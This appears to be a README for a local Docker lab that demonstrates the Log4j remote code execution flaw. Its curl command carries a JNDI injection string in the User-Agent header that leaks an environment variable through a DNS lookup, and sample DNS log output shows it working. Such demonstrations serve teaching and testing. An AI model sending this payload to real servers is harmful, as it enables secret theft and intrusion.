 # Log4j RCE Vuln

## Requirements

* maven 3.2+
* java 11
* docker

## Running Locally

In one terminal tab run:

```bash
mvn install && docker-compose up --build
```

In another terminal tab run:

```bash
curl -s "http://localhost:8080/" -H 'User-Agent: ${jndi:ldap://${env:SECRET_VAR}.log4j2.internal/a}'
```

And watch the output in the first tab.  You will see something like the following

```text
Dec 13 05:54:09 dnsmasq[17]: query[A] 12345.dw.internal from 172.16.238.11
Dec 13 05:54:09 dnsmasq[17]: forwarded 12345.log4j2.internal to 10.0.0.1
```